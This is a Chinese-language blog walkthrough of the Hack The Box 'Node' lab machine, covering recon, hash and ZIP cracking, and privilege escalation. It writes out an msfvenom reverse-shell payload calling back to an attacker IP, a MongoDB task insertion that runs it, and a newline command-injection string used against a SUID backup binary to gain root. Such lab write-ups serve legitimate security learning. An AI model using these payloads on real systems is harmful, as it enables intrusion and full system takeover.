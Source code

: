 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LbD2bB8EBq5Q9NRJlK5DIQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **117** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/9qXnTkZPuxe8H1QicBcbrQQVKOeKw2PsaPtbkhed7icVWmmGk0o3VgYFqKdtNwPFicT2aW803Yp7DqjdiaoFRYVX3A/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/110

靶机难度：中级（4.3/10）

靶机发布日期：2017 年 10 月 24 日

靶机描述：

Node focuses mainly on newer software and poor configurations. The machine starts out seemingly easy, but gets progressively harder as more access is gained. In-depth enumeration is required at several steps to be able to progress further into the machine.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/gUVKXuw5icTuicMe1TSd3CYPJzxFcxUnzpBLmOY2lYosbSmH5Ro01bJbqOVUwZ97d098kTPyiaWWicblornticcLu9w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0fb0Y1M6icJJia7t9xsBuUuxZQgOLeWHYicicRpfEiahMz3mlpK0icx8qLpfMLDojhD7IwSE2IalXVBBFs9E1Z88Ka3Q/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/PRVgXdHra5CzBfuOaOX4dpiaoOia6WZfdos1RiaJEZJG7nrnxTkXBoianpRmkQTmqkmW3zkbaQqjAu6WwBYAmyGibiaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcm2L9MSJ905bofJyKwstebwXaqAk6ghnnMJvBMuSwOiaMmrVkhc12CL0Q/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.58....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmnH43hicpHVXIUR7hwHiaeuPmyAbAHqQVibIwl8U8RhCwt5Dib21Y457IlA/640?wx_fmt=png)

nmap 仅发现开放了 OpenSSH 和 Node.js....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmUKcX3rXaAwtqpM9Dm0uzBBKhbIJF9ibMI5ya7TzoH4e8fxZmEG2wPSw/640?wx_fmt=png)

访问 web 发现存在个登陆界面 login....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcm3A1kTibCpzmU6ZrnlxeOUdSnNSE45T9XhSyicUzXHDz9LXzdDDBIFxaQ/640?wx_fmt=png)

丢着爆破，刚开始就报断点错误，根据做 vulnhub 靶机经验，这是半张笑脸.... 后面继续爆破就没任何目录信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmiaMOPRyENXAQicx6qvdOcC92ibEAgZUW4xcUBOETgqByCFdVP5Z9LpL4w/640?wx_fmt=png)

查看前端代码，很多 js 文件... 都查看了一番

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmxT6cyHnkdTiaiaFjN6snfE59iaSBEg73KKB0YOmOwfztO2TXo5chtoyibg/640?wx_fmt=png)

发现存在 / api/users/latest 信息目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmonaZH1micVotjlWw3uk0PlKiaibA7GM0yJkfZxPpVDpPibtohia0icXibRFGQ/640?wx_fmt=png)

进入去掉 latest，获得了 0 类的密匙信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcm9GXGiaEXrsoPjF3a6J2yuXUDLib0WtursIvDfpyRcptiadApg9kzYQx6g/640?wx_fmt=png)

通过爆破哈希值，获得了密码... 这里测试了四个，只有 0 类可以登陆 web....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmWrJEw5Yhm8bbffaZ2LTGfuB0ORkjZ2icMEFNLMswmkTSSh9IUbIEzww/640?wx_fmt=png)

登陆即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmrnPmjib2VgE4ibLQNP3qDQQAhSLTfXQzTG2ErwsU8zScZLFTJ4SPdAvg/640?wx_fmt=png)

进入后 download 文件... 直接下载是无法下载的一直循环下载....

这里需要开启本地代理进行下载....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmCYqcf8Pk06SdD6ibibznyPIMdtMlicEyUUfmpBsquFpgWQmhU0O06jfjA/640?wx_fmt=png)

下载完后读取发现是 base64 值，解码后读取文件类型，可看到是 ZIP 压缩文件...

解压提示需要密码...

这里直接利用 fcrackzip 暴力破解 zip 类型文件密码..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmmCQyYczKnyic9mQe9DDIIbwamdLlnVdu0pWZ4LBX7KYibou0hpLO8gNg/640?wx_fmt=png)

成功获得了密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmiblTBkQQS86rjK2qnXRoPvFTsQpHuUPouob8dydia7trWaXiaocX0qR7w/640?wx_fmt=png)

解压后，在目录底层继续查看了 jx 文件内容...

发现了两个信息，mark 用户名密码和 backup_key....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmXMg36picx5OwCxkCZ96HKAgPx0A4QHWC3Z1zmnSc6weyeyQD7az0BVA/640?wx_fmt=png)

利用 mark 用户名密码成功 ssh 登陆到靶机...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmFfa9rWmhdpFstYpyROpb51E4M4I1dibb1aUy7GjP2qtNl7Wofe2yepA/640?wx_fmt=png)

这里存在三个用户 mark、frank、tom，直接列举了 tom 存在运行的进程... 又是 app.js

查看发现它访问了 mongodb 数据库，并执行了任务表中放置的所有任务，可看到 setInterval 函数，该函数可以在 cmd 值下执行任何操作...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmI1dUrS8wXeBd9TEp3eD8Y2wOCBRdb4vrLq8P7ibk2KO2S7b4L4Uhu1w/640?wx_fmt=png)

```
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.51 LPORT=6666 -f elf -o dayushell.elf
```

利用 MSF 制作 shell... 然后 scp 上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcm8a7UtV2ugF0TfxcHicFv7yiaRb4Eehz4ZwkLGibz58E6ZWoZ5miccT4Ydw/640?wx_fmt=png)

```
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```

```
use scheduler
show collections
db.tasks.insertOne({cmd:'/tmp/dayushell.elf'})
```

登录到 mongodb，并使用语法插入要执行的有效负载...

过 1 分钟左右获得了反向外壳....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmAFnldkAEwwP3rrqK3HxLx2jBGLb3sdbAydFmDr6QLkrKzAPsvMJ4hQ/640?wx_fmt=png)

上传 LinEnum.sh 枚举，枚举 SUID 时，发现了 backup 二进制文件... 和 app.js 内看到的 backup_key 感觉是相匹配的信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmwj0dt6AJCHQib63FMVbEITYPzFgRTugYjXdiaJT2xgpSrelEyd22mCIg/640?wx_fmt=png)

将 backup 下载到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmC8IXFCahu6a28uyCcwOsJGHT6jFWC9Qhic9mzF0jdCSeLcBSEIBLeWQ/640?wx_fmt=png)

通过 IDA 查看发现，二进制文件的 main 函数检查有 3 个，如果返回 false，它将跳转到左侧的块以完全退出...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmcAWaJc2BNtibtvBhRjg46awyJBAG3cAZy4GfKdqI9PqrcHMkT0xEe7A/640?wx_fmt=png)

测试给了它 3 个论点，输出了内容....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmFBXw1S0CQVcJtUAVAdd9Jqic8THHnmgunohvLEbCnK2Suk5XpzPec4w/640?wx_fmt=png)

```
strace ./backup 1 2 3
```

利用 strace 调用跟踪程序走向信息... 可以看到程序正在尝试读取 / etc/myplace/keys 中的内容，去看看....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmK5ibfamvY8Qja6cUjicDkWKlfXEibywtSIofK1OLjtVzYqcWI9jnr3d8w/640?wx_fmt=png)

三个密匙....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmCfxpPibyc5Xn5sMWfTZ79icuLnMibnSgicnvWvTNXGJGMa9gm0nllgSAtA/640?wx_fmt=png)

返回查看 backup_key，和前面 keys 对比，发现第一个密匙凭证一样的... 果然是有关联的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmSXb4k3eThibAO4p0WWFbF63uyuibnJ3s5ycEQwuLz4CG24Vziajw7qbWw/640?wx_fmt=png)

```
ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/a
```

利用 ltrace 继续进行探测... 这里科普下哈：

strace------ 跟踪进程的系统调用或信号产生的情况

ltrace------- 跟踪进程调用库函数的情况

可以看到该目录使用 magicword 作为密码进行了压缩，然后该 zip 文件已进行 base64 编码，另外注意到有许多使用 strchr（）或 strstr（）的过滤器，这里可以绕过他们提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOZx9HJjh0suYick2lXiclZcmicXKqEARIsWXEeEBLWicSp5t9VtIQndLK2d6rtsjNFQFYwDJq86skJLA/640?wx_fmt=png)

```
./backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf '\n/bin/sh\necho OK')"
```

利用 $（），printf 和换行符的组合来注入命令成功获得了 root 权限，并获得了 user_flag 和 root_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/9qXnTkZPuxe8H1QicBcbrQQVKOeKw2PsaPtbkhed7icVWmmGk0o3VgYFqKdtNwPFicT2aW803Yp7DqjdiaoFRYVX3A/640?wx_fmt=png)

这里 backup 还可以利用缓冲区溢出，或者我也提示了 base64 和 magicword 密码，可以直接提取 root_base64 值，然后获得 root_flag....

web 信息收集 + hash 爆破 + ZIP 爆破 + mongodb 数据库分析提权 + 信息枚举 + backup 二进制解析提权

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/gUVKXuw5icTuicMe1TSd3CYPJzxFcxUnzpBLmOY2lYosbSmH5Ro01bJbqOVUwZ97d098kTPyiaWWicblornticcLu9w/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)